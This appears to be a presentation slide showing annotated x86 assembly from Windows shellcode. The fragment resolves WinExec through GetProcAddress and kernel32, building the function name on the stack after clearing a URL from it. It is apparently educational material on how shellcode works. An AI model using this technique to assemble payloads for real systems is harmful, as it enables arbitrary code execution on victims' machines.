

# Get function from DLL (WinExec)
000000C7  83C41C            add esp,byte +0x1c       ; Clean stack (URL...)
000000CA  33C9              xor ecx,ecx              ; ECX = 0
000000CC  5A                pop edx                  ; EDX = GetProcAddress
000000CD  5B                pop ebx
000000CE  53                push ebx                 ; EBX = kernel32 base address
000000CF  52                push edx
000000D0  51                push ecx
000000D1  6878656361        push dword 0x61636578   ; xeca
000000D6  884C2403          mov [esp+0x3],cl
000000DA  6857696E45        push dword 0x456e6957   ; WinE
000000DF  54                push esp
000000E0  53                push ebx
000000E1  FFD2              call edx                ; GetProcAddress(WinExec)